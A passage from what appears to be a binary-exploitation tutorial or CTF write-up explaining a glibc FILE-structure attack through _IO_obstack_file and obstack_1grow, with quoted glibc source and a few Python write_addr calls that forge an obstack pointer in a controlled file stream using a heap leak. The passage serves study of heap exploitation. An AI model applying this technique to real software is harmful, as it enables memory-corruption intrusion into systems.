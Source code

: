 ```c
struct obstack *obstack = ((struct _IO_obstack_file *) fp)->obstack;
assert (c != EOF);
obstack_1grow (obstack, c);
```

To pass the above checks and reach *obstack_1grow* and since we know we can pass the assert since the value of the second argument is not -1, how can we set the *obstack* struct? Well, we need a place where we can write it, and it also needs to be placed after the filestream.so we should place it at offset 0xe0, and what to write to it? Well, we need a controlled area, and since we have a heap leak, we can point it to our *fp*  at offset 0x2a0 from the heap base address. Since the first member of the struct needs to be a pointer to it, we can set up the same address. This should be the _flags field.

```python
write_addr(0xe0, heap_base+0x2a0)
write_addr(_flags, heap_base+0x2a0)
```
The above code will ensure we can reach the *obstack_1grow* function and pass the *obstack* we control as the argument. This struct is located in *obstack.h* within the Glibc source, as shown below.

```c
struct obstack          /* control current object in current chunk */
{
  long chunk_size;              /* preferred size to allocate chunks in */
  struct _obstack_chunk *chunk; /* address of current struct obstack_chunk */
  char *object_base;            /* address of object we are building */
  char *next_free;              /* where to add next char to current object */
  char *chunk_limit;            /* address of char after current chunk */
  union
  {
    PTR_INT_TYPE tempint;
    void *tempptr;
  } temp;                       /* Temporary for some macros.  */
  int alignment_mask;           /* Mask of alignment for each object. */
  /* These prototypes vary based on 'use_extra_arg', and we use
     casts to the prototypeless function type in all assignments,
     but having prototypes here quiets -Wstrict-prototypes.  */
  struct _obstack_chunk *(*chunkfun) (void *, long);
  void (*freefun) (void *, struct _obstack_chunk *);
  void *extra_arg;              /* first arg for chunk alloc/dealloc funcs */
  unsigned use_extra_arg : 1;     /* chunk alloc/dealloc funcs take extra arg */
  unsigned maybe_empty_object : 1; /* There is a possibility that the current
              chunk contains a zero-length object. This
              prevents freeing the chunk if we allocate
              a bigger chunk to replace it. */
  unsigned alloc_failed : 1;      /* No longer used, as we now call the failed
             handler on error, but retained for binary
             compatibility.  */
};
```

The above struct and his offsets will be equivalent to the *fp* we can control. Let's investigate The obstack_1grow function that is defined as follows in *obprintf.c*.
